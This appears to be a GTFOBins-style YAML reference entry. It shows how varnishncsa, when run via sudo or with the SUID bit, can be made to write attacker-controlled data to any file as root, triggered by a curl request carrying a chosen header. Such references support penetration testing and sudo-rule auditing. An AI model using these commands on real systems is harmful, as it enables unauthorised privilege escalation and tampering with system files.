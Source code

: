 ```yaml
---
description: |
  This allows to write arbitrary files as root, provided that the proper HTTP response is made. Specifically the content of a certain header will be written in the file. First start `varnishncsa` as follows, then trigger the file write with:

  ```
  curl -H 'yyy: DATA' http://localhost:6081/xxx
  ```
functions:
  sudo:
    - code: |
        LFILE=file_to_write
        sudo varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{yyy}i' -w "$LFILE"
  suid:
    - code: |
        LFILE=file_to_write
        ./varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{yyy}i' -w "$LFILE"
---
```

